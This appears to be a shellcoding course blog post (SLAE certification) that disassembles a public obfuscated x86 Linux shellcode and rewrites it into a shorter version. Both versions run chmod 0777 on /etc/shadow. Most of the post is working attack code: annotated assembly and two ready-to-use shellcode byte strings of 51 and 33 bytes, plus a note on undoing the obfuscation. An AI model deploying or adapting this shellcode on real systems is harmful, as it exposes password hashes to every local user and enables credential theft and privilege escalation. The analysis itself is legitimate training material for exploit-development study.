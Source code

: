 # Overview

The original /etc/shadow permissions are set to 640, so this command will reset permissions back to the default on Ubuntu.
```bash
chmod 640 /etc/shadow
```

Here, I chose this shellcode from [http://shell-storm.org/shellcode/files/shellcode-875.php](http://shell-storm.org/shellcode/files/shellcode-875.php). The note says that it is a bit obfuscated, so I thought it would be interesting to see what this means at an instruction level. I will be removing the obfuscation, so the extra credit shouldn't count for making this one shorter, I just wanted to analyze this piece of assembly to understand some techniques for obfuscation.

# Disassembly

Here is the disassembly commented with my quick notes. I see they are obfuscating the string "adow" and using techniques such as `mov ebx, eax; xor eax, ebx` to perhaps obfuscate an `xor eax, eax`.

```assembly
section .text
global _start

_start: 
    mov ebx, eax
    xor eax, ebx            ; = xor eax, eax
    push dword eax

    ; push obfuscated "adow" string
    mov esi, 0x563a1f3e
    add esi, 0x21354523
    mov dword [esp-4], esi              ; "adow"

    mov dword [esp-8], 0x68732f2f       ; "hs//"
    mov dword [esp-12], 0x6374652f      ; "cte/"
    sub esp, 12
    mov ebx,esp
    
    push word  0x1ff ; permissions 0777
    pop cx

    mov al,0xf  ; chmod()
    int 0x80

```

Shellcode (length: 51 bytes)

```c
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f\x3a\x56\x81\xc6\x23\x45\x35\x21\x89\x74\x24\xfc\xc7\x44\x24\xf8\x2f\x2f\x73\x68\xc7\x44\x24\xf4\x2f\x65\x74\x63\x83\xec\x0c\x89\xe3\x66\x68\xff\x01\x66\x59\xb0\x0f\xcd\x80"
```

# Changes

I start the modifications by just xor'ing and removing the previous mov instruction to set eax to 0x0.

```assembly
; mov ebx, eax
; xor eax, ebx            ; = xor eax, eax
xor eax, eax
```

Next I remove the deobfuscated string, and change the mov instructions to push instructions in order to get the string "/etc//shadow" onto the stack.

```assembly
; ; push obfuscated "adow" string
; mov esi, 0x563a1f3e
; add esi, 0x21354523
; mov dword [esp-4], esi              ; "adow"
; mov dword [esp-8], 0x68732f2f       ; "hs//"
; mov dword [esp-12], 0x6374652f      ; "cte/"
; sub esp, 12
push 0x776f6461         ; "woda"
push 0x68732f2f         ; "hs//"
push 0x6374652f         ; "cte/"
```

The rest of the instructions are the same, however, I also added a call to exit() so the shellcode exits gracefully. Since we can assume the chmod returns the value of 0, I will increment it's value to reference the exit syscall.

```assembly
inc eax
int 0x80
```

# New Disassembly + Shellcode

```assembly
section .text
global _start

_start: 
    ; mov ebx, eax
    ; xor eax, ebx            ; = xor eax, eax
    xor eax, eax
    
    push dword eax

    ; ; push obfuscated "adow" string
    ; mov esi, 0x563a1f3e
    ; add esi, 0x21354523
    ; mov dword [esp-4], esi              ; "adow"
    ; mov dword [esp-8], 0x68732f2f       ; "hs//"
    ; mov dword [esp-12], 0x6374652f      ; "cte/"
    ; sub esp, 12
    push 0x776f6461         ; "woda"
    push 0x68732f2f         ; "hs//"
    push 0x6374652f         ; "cte/"

    mov ebx,esp
    
    push word  0x1ff ; permissions 0777
    pop cx

    mov al,0xf  ; chmod()
    int 0x80

    inc eax
    int 0x80
```

New Shellcoe (Lenth: 33)

```c
"\x31\xc0\x50\x68\x61\x64\x6f\x77\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\x68\xff\x01\x66\x59\xb0\x0f\xcd\x80\x40\xcd\x80"
```




# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly

